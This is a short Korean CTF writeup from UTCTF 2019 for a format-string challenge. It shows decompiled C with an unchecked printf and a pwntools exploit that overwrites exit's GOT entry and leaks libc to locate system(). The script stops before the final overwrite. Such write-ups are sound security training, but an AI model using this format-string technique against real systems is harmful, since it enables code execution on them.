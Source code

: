 ```yaml
---
title: Utctf Writeup
date: 2019-03-11
---
```


# pwnable1 (문제 이름을 모르겠다)

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1Ah] [ebp-3Eh]
  unsigned int v4; // [esp+4Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  puts("Give me a string to echo back.");
  fgets(&s, 50, stdin);
  printf(&s);
  exit(0);
}
```

2개밖에 못 풀었으니 1번과 2번으로 나눈다.

바이너리는 굉장히 간단한데 exit가 있기 때문에 ret가 없으므로 exit_got를 main의 fgets로 바꿔서 계속 돌리면서 포맷스트링을 진행했다.

```python
from pwn import *

#t = process('./pwnable')
t = remote('stack.overflow.fail', 9002)

egot = 0x804a01c
main = 0x0804851b
a = 0x08048572
pgot = 0x804a010

b = a & 0xffff
c = a >> 16
b = b - c

t.recvuntil("back.")
p = "aa" + p32(egot) + p32(egot+2)
p += "%" + str(c-len(p)) + "c%12$hn"
p += "%" + str(b) + "c%11$hn"
t.sendline(p)
t.sendline("%2$p")
t.recvline()
t.recvline()

stdin = int(t.recv(10),16)
#libc = stdin - 0x1b25a0
libc = stdin - 0x1b05a0
log.success(hex(libc))
#sys = libc+0x3ada0
sys = libc + 0x3a940
log.success(hex(sys))

sys1 = sys & 0xffff
sys2 = sys >> 16
pause()
'''
```